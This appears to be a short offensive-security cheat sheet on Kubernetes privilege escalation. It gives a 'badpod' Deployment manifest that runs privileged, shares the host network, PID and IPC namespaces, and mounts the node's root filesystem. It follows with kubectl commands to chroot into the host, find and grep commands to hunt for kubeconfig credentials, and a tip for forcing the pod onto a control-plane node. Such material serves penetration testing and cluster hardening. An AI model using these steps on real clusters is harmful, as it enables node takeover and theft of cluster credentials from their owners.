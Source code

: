 # Kubernetes 

## Privilege Escalation

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: badpod
  labels:
    app: badpod
    type: deployment
spec:
  replicas: 2
  selector:
    matchLabels:
      app: badpod
      type: deployment
  template:
    metadata:
      labels:
        app: badpod
        type: deployment
    spec:
      hostNetwork: true
      hostPID: true
      hostIPC: true
      containers:
      - name: badpod
        image: ubuntu
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: noderoot
        command: [ "/bin/sh", "-c", "--" ]
        args: [ "while true; do sleep 30; done;" ]
      #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
      volumes:
      - name: noderoot
        hostPath:
          path: /

```

Deploy and get Shell
```
kubeclt apply -f badpod.yaml
kubectl exec -it badpod -- chroot /host bash
```

locate credentials
```
find / -name kubeconfig
find / -name .kube
grep -R "current-context" /home/
grep -R "current-context" /root/
```



### References:
- https://github.com/BishopFox/badPods/tree/main/manifests/everything-allowed
- https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/
